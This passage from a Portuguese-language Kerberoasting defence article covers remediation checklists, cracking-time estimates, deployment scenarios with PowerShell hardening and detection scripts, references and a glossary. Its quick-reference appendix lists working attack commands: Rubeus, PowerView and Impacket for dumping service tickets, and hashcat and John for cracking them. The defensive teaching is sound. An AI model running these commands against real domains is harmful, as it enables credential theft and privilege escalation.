- [ ] Testar cracking de hashes em ambiente controlado
- [ ] Identificar caminhos de escalação de privilégios via BloodHound
- [ ] Documentar contas que não podem migrar para gMSA

**Remediação:**
- [ ] Criar plano de migração para gMSA (timeline, responsáveis)
- [ ] Implementar senhas complexas (30+ chars) em contas não-gMSA
- [ ] Desabilitar RC4 globalmente (ou por OU específica)
- [ ] Remover privilégios excessivos de service accounts
- [ ] Implementar rotação automática de senhas
- [ ] Criar honey accounts para detecção

**Monitoramento:**
- [ ] Habilitar auditoria de Event ID 4769, 4768
- [ ] Configurar alertas para múltiplas requisições TGS (>10 em 5 min)
- [ ] Alertar sobre requisições RC4 se domínio é AES-only
- [ ] Integrar logs com SIEM
- [ ] Criar dashboard de monitoramento contínuo
- [ ] Estabelecer baseline de comportamento normal

**Testes:**
- [ ] Realizar purple team exercise focado em Kerberoasting
- [ ] Validar detecção com ferramenta (Rubeus, Impacket)
- [ ] Testar tempo de resposta da equipe SOC
- [ ] Verificar efetividade de alertas
- [ ] Documentar falsos positivos e ajustar regras

### 11.6 Cálculo de Tempo de Cracking

Para entender a urgência da remediação, é útil estimar o tempo necessário para quebrar senhas:

**RC4-HMAC (mais vulnerável):**
- GPU: NVIDIA RTX 4090 (~450 GH/s para MD4/NTLM)
- Senha 8 caracteres (complexa): segundos a minutos
- Senha 10 caracteres (complexa): horas a dias
- Senha 15 caracteres (complexa): anos
- Senha 25+ caracteres: praticamente impossível com força bruta

**AES256 (mais seguro):**
- Significativamente mais lento devido a PBKDF2
- Senha 8 caracteres: minutos a horas
- Senha 10 caracteres: dias a semanas
- Senha 15+ caracteres: anos a décadas

**Fórmula Estimativa:**
```
Tempo = (Keyspace / Hash Rate) / 2  # /2 assume encontrar na metade em média

Keyspace exemplos:
- Letras minúsculas (26^n)
- Letras maiúsculas + minúsculas (52^n)
- Alfanumérico (62^n)
- Alfanumérico + especiais (~95^n)

Exemplo: 8 caracteres alfanuméricos
62^8 = 218,340,105,584,896 combinações
RTX 4090: ~450 GH/s
Tempo = 218,340,105,584,896 / (450,000,000,000 * 2) ≈ 243 segundos ≈ 4 minutos
```

**Takeaway:** Senhas de service accounts devem ter **mínimo 25 caracteres** para resistir a ataques com GPUs modernas.

### 11.7 Impacto Organizacional

**Custos de um Ataque Bem-Sucedido:**

1. **Diretos:**
   - Resposta a incidentes (time SOC, consultores externos)
   - Forense e investigação
   - Remediação e recuperação
   - Possíveis resgates em casos de ransomware subsequente

2. **Indiretos:**
   - Downtime de sistemas críticos
   - Perda de produtividade
   - Danos à reputação
   - Perda de confiança de clientes
   - Multas regulatórias (LGPD, GDPR, etc.)
   - Custos legais

3. **Estratégicos:**
   - Perda de vantagem competitiva
   - Exposição de propriedade intelectual
   - Comprometimento de estratégias de negócio

**ROI da Prevenção:**
- Investimento em gMSA: baixo (custo de implementação e treinamento)
- Investimento em monitoramento: médio (SIEM, ferramentas, pessoal)
- Benefício: evitar custos massivos de incidente (10-100x o investimento)

---

## 12. Casos de Uso Práticos

### 12.1 Cenário 1: Empresa de Médio Porte (500-2000 funcionários)

**Situação Inicial:**
- 45 service accounts com SPNs
- 30% usando RC4
- 60% com senhas >2 anos
- 5 service accounts em Domain Admins
- Sem monitoramento de Kerberos
- Orçamento limitado

**Plano de Remediação (90 dias):**

**Fase 1 (0-30 dias) - Vitórias Rápidas:**
```powershell
# Dia 1: Auditoria completa
Get-KerberoastableAccounts | Export-Csv audit.csv

# Dia 2-3: Ações críticas
# Remover service accounts de Domain Admins
$CriticalAccounts = Import-Csv audit.csv | Where-Object {$_.IsHighValue -eq $true}
foreach ($account in $CriticalAccounts) {
    Remove-ADGroupMember -Identity "Domain Admins" -Members $account.SamAccountName -Confirm:$false
}

# Dia 4-7: Reset de senhas críticas
foreach ($account in $CriticalAccounts) {
    $newPass = [System.Web.Security.Membership]::GeneratePassword(30,10)
    Set-ADAccountPassword -Identity $account.SamAccountName -NewPassword (ConvertTo-SecureString $newPass -AsPlainText -Force) -Reset
    # Armazenar em vault
}

# Dia 8-14: Implementar monitoramento básico
# Habilitar auditoria
auditpol /set /subcategory:"Kerberos Service Ticket Operations" /success:enable

# Dia 15-30: Honey accounts
New-ADUser -Name "svc-backup-sql" -SamAccountName "svc-backup-sql" `
  -AccountPassword (ConvertTo-SecureString "SuperComplexPassword!2024#Impossible" -AsPlainText -Force) `
  -Enabled $true
Set-ADUser -Identity "svc-backup-sql" -ServicePrincipalNames @{Add="MSSQLSvc/honeypot-db.empresa.local:1433"}
```

**Fase 2 (30-60 dias) - Fortalecimento:**
- Desabilitar RC4 em test OU
- Implementar FGPP para service accounts
- Migrar 5 service accounts críticos para gMSA
- Configurar alertas básicos no SIEM

**Fase 3 (60-90 dias) - Consolidação:**
- Desabilitar RC4 globalmente
- Migrar mais 10 accounts para gMSA
- Purple team exercise
- Documentação e treinamento

**Resultado Esperado:**
- Redução de 80% no risco de Kerberoasting
- Tempo médio de detecção: <5 minutos
- 15 contas migradas para gMSA
- 100% das contas com senhas 25+ caracteres

### 12.2 Cenário 2: Instituição Financeira (Alta Segurança)

**Situação Inicial:**
- 200+ service accounts
- Compliance rigoroso (PCI-DSS, BACEN)
- Ambiente complexo com múltiplos domínios
- Já possui SIEM e equipe SOC madura

**Abordagem Avançada:**

**1. Análise de Risco Baseada em Dados:**
```python
# Script de scoring de risco
def calculate_risk_score(account):
    score = 0
    
    # Idade da senha
    if account['PasswordAge'] > 365:
        score += 40
    elif account['PasswordAge'] > 180:
        score += 20
    
    # Encryption
    if account['UsesRC4']:
        score += 30
    
    # Privilégios
    if 'Domain Admins' in account['Groups']:
        score += 30
    elif any(admin in account['Groups'] for admin in ['Enterprise Admins', 'Schema Admins']):
        score += 25
    elif any(priv in account['Groups'] for priv in ['Account Operators', 'Backup Operators']):
        score += 15
    
    # Complexity
    if account['PasswordLength'] < 15:
        score += 20
    elif account['PasswordLength'] < 25:
        score += 10
    
    # Uso
    if not account['LastLogon'] or (datetime.now() - account['LastLogon']).days > 90:
        score += 15  # Conta não usada = maior risco se comprometida
    
    return min(score, 100)  # Cap at 100
```

**2. Implementação de PAM (Privileged Access Management):**
- CyberArk, BeyondTrust ou similar
- Check-out de senhas com aprovação
- Sessão gravadas e monitoradas
- Rotação automática pós-uso

**3. Detecção Avançada com ML:**
```python
# Pseudo-código para detecção ML
from sklearn.ensemble import IsolationForest

# Features para modelo
features = [
    'tgs_requests_per_minute',
    'unique_spns_requested',
    'time_between_requests',
    'historical_behavior_deviation',
    'source_ip_reputation',
    'user_typical_activity_score'
]

# Treinar modelo com dados históricos normais
model = IsolationForest(contamination=0.01)
model.fit(normal_behavior_data)

# Detectar anomalias em tempo real
def detect_kerberoasting_ml(event):
    features_vector = extract_features(event)
    anomaly_score = model.decision_function([features_vector])
    
    if anomaly_score < threshold:
        alert_soc(event, anomaly_score)
```

**4. Red Forest Architecture:**
- Tier 0: Isolated forest para admin accounts
- Tier 1: Production servers
- Tier 2: Workstations
- No trust entre tiers (lateral movement prevention)

**5. Métricas e KPIs:**
- Mean Time to Detect (MTTD): <2 minutos
- Mean Time to Respond (MTTR): <15 minutos
- False Positive Rate: <5%
- Percentage of gMSA adoption: >80%
- Service accounts with RC4: 0%

### 12.3 Cenário 3: Startup com Active Directory Novo

**Situação Inicial:**
- AD recém-implementado
- 10 service accounts
- Equipe pequena de TI
- Budget limitado mas flexível para investir em segurança desde o início

**Estratégia "Security by Design":**

**1. Configuração Inicial Segura:**
```powershell
# Desabilitar RC4 desde o início
Set-ADDomainMode -Identity empresa.local -DomainMode Windows2016Domain
Set-ADForestMode -Identity empresa.local -ForestMode Windows2016Forest

# GPO: Disable RC4
New-GPO -Name "Disable RC4 Kerberos" | New-GPLink -Target "DC=empresa,DC=local"
Set-GPRegistryValue -Name "Disable RC4 Kerberos" -Key "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\Kerberos\Parameters" -ValueName "SupportedEncryptionTypes" -Type DWord -Value 24  # AES128 + AES256

# Implementar FGPP desde o início
New-ADFineGrainedPasswordPolicy -Name "ServiceAccountPolicy" `
  -Precedence 10 -MinPasswordLength 30 -MaxPasswordAge 90.00:00:00
```

**2. gMSA por Padrão:**
```powershell
# KDS Root Key
Add-KdsRootKey -EffectiveTime ((Get-Date).AddHours(-10))

# Template de criação de serviços
function New-SecureServiceAccount {
    param(
        [string]$ServiceName,
        [string]$Server,
        [string]$SPN
    )
    
    $gmsaName = "gMSA-$ServiceName"
    
    # Criar grupo de hosts
    $groupName = "$gmsaName-Hosts"
    New-ADGroup -Name $groupName -GroupScope DomainLocal
    Add-ADGroupMember -Identity $groupName -Members (Get-ADComputer $Server)
    
    # Criar gMSA
    New-ADServiceAccount -Name $gmsaName `
        -DNSHostName "$gmsaName.empresa.local" `
        -ServicePrincipalNames $SPN `
        -PrincipalsAllowedToRetrieveManagedPassword $groupName
    
    Write-Host "[+] Created $gmsaName - install with: Install-ADServiceAccount $gmsaName"
}
```

**3. Monitoramento desde o Dia 1:**
```powershell
# Configurar Windows Event Forwarding
wecutil qc

# Script de monitoramento simples (substituir por SIEM quando orçamento permitir)
$Action = {
    $Events = Get-WinEvent -FilterHashtable @{LogName='Security'; ID=4769; StartTime=(Get-Date).AddMinutes(-5)}
    $Grouped = $Events | Group-Object {$_.Properties[0].Value}
    $Suspicious = $Grouped | Where-Object {$_.Count -gt 5}
    
    if ($Suspicious) {
        Send-MailMessage -To "security@empresa.local" -From "alertas@empresa.local" `
            -Subject "Alerta: Possível Kerberoasting" `
            -Body ($Suspicious | Out-String) -SmtpServer "smtp.empresa.local"
    }
}

Register-ScheduledTask -TaskName "Monitor-Kerberoasting" `
    -Action (New-ScheduledTaskAction -Execute 'PowerShell.exe' -Argument "-Command & {$($Action)}") `
    -Trigger (New-ScheduledTaskTrigger -Once -At (Get-Date) -RepetitionInterval (New-TimeSpan -Minutes 5))
```

**4. Documentação e Processos:**
```markdown
# Procedimento: Criação de Service Account

## Pré-requisitos
- Aprovação de gestor
- Justificativa documentada
- Princípio de least privilege aplicado

## Passos
1. Avaliar se gMSA é aplicável (sempre preferível)
2. Se gMSA:
   - Usar template: New-SecureServiceAccount
   - Documentar hosts autorizados
3. Se não gMSA (exceção):
   - Gerar senha de 30+ caracteres
   - Aplicar FGPP ServiceAccountPolicy
   - Forçar AES256
   - Armazenar em cofre (Azure Key Vault)
   - Documentar por que gMSA não é viável

## Auditoria
- Revisar trimestralmente
- Reavaliar necessidade de privilégios
- Verificar possibilidade de migração para gMSA
```

**Resultado:**
- Zero debt técnico de segurança
- 100% das contas usam gMSA ou senhas 30+ com AES256
- Monitoramento desde o início
- Cultura de segurança estabelecida

---

## 13. Referências e Bibliografia

### 13.1 Papers Acadêmicos

1. Neuman, B. C., & Ts'o, T. (1994). **Kerberos: An authentication service for computer networks**. IEEE Communications magazine, 32(9), 33-38.

2. Steiner, J. G., Neuman, B. C., & Schiller, J. I. (1988). **Kerberos: An authentication service for open network systems**. In Proceedings of the Winter 1988 Usenix Conference (pp. 191-202).

3. Perlman, R., & Kaufman, C. (2002). **Analysis of the IPsec key exchange standard**. In Proceedings of the 10th International Workshop on Security Protocols (pp. 143-156).

### 13.2 Documentação Técnica Microsoft

1. Microsoft. (2023). **How the Kerberos Version 5 Authentication Protocol Works**. Microsoft TechNet Library.

2. Microsoft. (2023). **Group Managed Service Accounts Overview**. Windows Server Documentation.

3. Microsoft. (2023). **Advanced Audit Policy Configuration**. Windows Security Documentation.

4. Microsoft. (2023). **Kerberos Protocol Extensions**. MS-KILE Protocol Specification.

### 13.3 Frameworks e Standards

1. MITRE ATT&CK. **T1558.003 - Steal or Forge Kerberos Tickets: Kerberoasting**. https://attack.mitre.org/techniques/T1558/003/

2. NIST. (2017). **SP 800-63B - Digital Identity Guidelines: Authentication and Lifecycle Management**.

3. CIS. (2023). **CIS Microsoft Windows Server Benchmark**. Center for Internet Security.

4. PCI Security Standards Council. (2022). **Payment Card Industry Data Security Standard (PCI DSS) v4.0**.

### 13.4 Apresentações de Segurança

1. Medin, T. (2014). **Attacking Microsoft Kerberos: Kicking the Guard Dog of Hades**. DerbyCon 4.0.

2. Metcalf, S. (2015). **Attacking Active Directory: 0 to 0.9**. Black Hat USA.

3. Schroeder, W., & Graeber, M. (2017). **An ACE Up the Sleeve: Designing Active Directory DACL Backdoors**. Black Hat USA.

4. Robbins, A. (2019). **BloodHound: Six Degrees of Domain Admin**. DEF CON 24.

### 13.5 Livros Recomendados

1. Metcalf, S., & Van Robaeys, B. (2020). **Active Directory Security Risk Assessment**. Independent Publication.

2. Schroeder, W. (2019). **The Dog Whisperer's Handbook: A Hacker's Guide to the BloodHound Galaxy**. SpecterOps.

3. Kim, P., & Allen, L. (2021). **Operator Handbook: Red Team + OSINT + Blue Team Reference**. Independent Publication.

4. Bertram, M. (2021). **Active Directory Security: Modern Defense Strategies**. Apress.

### 13.6 Ferramentas Open Source

1. **Rubeus** - https://github.com/GhostPack/Rubeus
   - Autor: Will Schroeder (@harmj0y)
   - Licença: BSD 3-Clause

2. **Impacket** - https://github.com/SecureAuthCorp/impacket
   - Autor: SecureAuth Corporation
   - Licença: Apache License 2.0 Modified

3. **PowerView** - https://github.com/PowerShellMafia/PowerSploit
   - Autor: Will Schroeder
   - Licença: BSD 3-Clause

4. **BloodHound** - https://github.com/BloodHoundAD/BloodHound
   - Autores: Andy Robbins, Rohan Vazarkar, Will Schroeder
   - Licença: GPL-3.0

5. **Hashcat** - https://hashcat.net/hashcat/
   - Autor: Jens Steube
   - Licença: MIT

### 13.7 Blogs e Recursos Online

1. **SpecterOps Blog** - https://posts.specterops.io/
   - Excelente conteúdo sobre AD security

2. **Harmj0y's Blog** - http://www.harmj0y.net/blog/
   - Deep dives técnicos em ataques AD

3. **ired.team** - https://www.ired.team/
   - Red teaming notes e técnicas

4. **ADSecurity.org** - https://adsecurity.org/
   - Sean Metcalf's Active Directory security research

5. **Microsoft Security Blog** - https://www.microsoft.com/security/blog/
   - Atualizações oficiais e best practices

---

## 14. Glossário de Termos

**Active Directory (AD)**: Serviço de diretório da Microsoft que armazena informações sobre objetos de rede e facilita autenticação e autorização.

**AES (Advanced Encryption Standard)**: Algoritmo de criptografia simétrica, mais seguro que RC4 para proteção de tickets Kerberos.

**AS-REP (Authentication Service Response)**: Resposta do Authentication Service contendo o TGT.

**AS-REQ (Authentication Service Request)**: Solicitação inicial de autenticação no protocolo Kerberos.

**Cracking**: Processo de quebrar hashes criptográficos para revelar senhas em texto claro.

**Domain Controller (DC)**: Servidor que responde a requisições de autenticação e verifica usuários em uma rede Windows.

**gMSA (Group Managed Service Account)**: Conta gerenciada automaticamente pelo AD com senha complexa rotacionada automaticamente.

**Hash**: Resultado de função criptográfica unidirecional aplicada a dados (como senhas).

**KDC (Key Distribution Center)**: Componente central do Kerberos responsável por emitir tickets.

**Kerberos**: Protocolo de autenticação de rede baseado em tickets e criptografia simétrica.

**Kerberoasting**: Técnica de ataque que extrai tickets TGS para cracking offline de senhas de service accounts.

**LDAP (Lightweight Directory Access Protocol)**: Protocolo para acessar e manter serviços de diretório distribuído.

**Lateral Movement**: Técnicas usadas por atacantes para se mover através de uma rede após comprometimento inicial.

**MSA (Managed Service Account)**: Versão mais simples de gMSA para servidor único.

**NTLM**: Protocolo de autenticação Microsoft mais antigo, hash usado em RC4.

**PAM (Privileged Access Management)**: Solução para gerenciar e auditar contas privilegiadas.

**Pass-the-Hash (PtH)**: Técnica que usa hash de senha para autenticação sem conhecer senha em texto claro.

**Pass-the-Ticket (PtT)**: Técnica que reutiliza tickets Kerberos válidos para autenticação.

**PBKDF2 (Password-Based Key Derivation Function 2)**: Função de derivação de chave usada em AES Kerberos.

**Principal**: Entidade (usuário ou serviço) no domínio Kerberos.

**RC4-HMAC**: Algoritmo de criptografia mais antigo e menos seguro usado em Kerberos.

**Red Team**: Equipe que simula ataques reais para testar defesas organizacionais.

**Service Principal Name (SPN)**: Identificador único de uma instância de serviço em AD.

**SIEM (Security Information and Event Management)**: Plataforma centralizada para análise de logs e detecção de ameaças.

**TGS (Ticket Granting Service)**: Componente do KDC que emite tickets de serviço.

**TGS-REP**: Resposta contendo o Service Ticket.

**TGS-REQ**: Solicitação de Service Ticket.

**TGT (Ticket Granting Ticket)**: Ticket inicial obtido após autenticação bem-sucedida.

**Ticket**: Estrutura de dados criptografada usada para autenticação no Kerberos.

---

## 15. Apêndices

### Apêndice A: Comandos Rápidos de Referência

**Enumeração:**
```powershell
# PowerShell
Get-ADUser -Filter {ServicePrincipalName -like "*"} -Properties ServicePrincipalName

# CMD
setspn -Q */*

# Impacket
python GetUserSPNs.py DOMAIN/user:pass -dc-ip 10.10.10.10
```

**Kerberoasting:**
```powershell
# Rubeus
Rubeus.exe kerberoast /outfile:hashes.txt

# PowerView
Invoke-Kerberoast -OutputFormat Hashcat | fl

# Impacket
python GetUserSPNs.py -request DOMAIN/user:pass -outputfile hashes.txt
```

**Cracking:**
```bash
# Hashcat RC4
hashcat -m 13100 -a 0 hashes.txt wordlist.txt

# Hashcat AES256
hashcat -m 19700 -a 0 hashes.txt wordlist.txt

# John the Ripper
john --format=krb5tgs --wordlist=wordlist.txt hashes.txt
```

**Detecção:**
```powershell
# Event ID 4769 analysis
Get-WinEvent -FilterHashtable @{LogName='Security'; ID=4769} |
  Group-Object {$_.Properties[0].Value} |
  Where-Object {$_.Count -gt 10}
```

**Remediação:**
```powershell
# Forçar AES
Set-ADUser -Identity user -KerberosEncryptionType AES256

# Criar gMSA
New-ADServiceAccount -Name
```
# Referências

- [Kerberos Parameters | IANA](https://www.iana.org/assignments/kerberos-parameters/kerberos-parameters.xhtml)
- [Sysmon - Sysinternals | Microsoft Learn](https://learn.microsoft.com/pt-br/sysinternals/downloads/sysmon)

---


Por favor, entre em contato comigo pelo meu <a href="https://www.linkedin.com/in/sandsoncosta">LinkedIn</a>.<br>Vou ficar muito contente em receber um feedback seu.

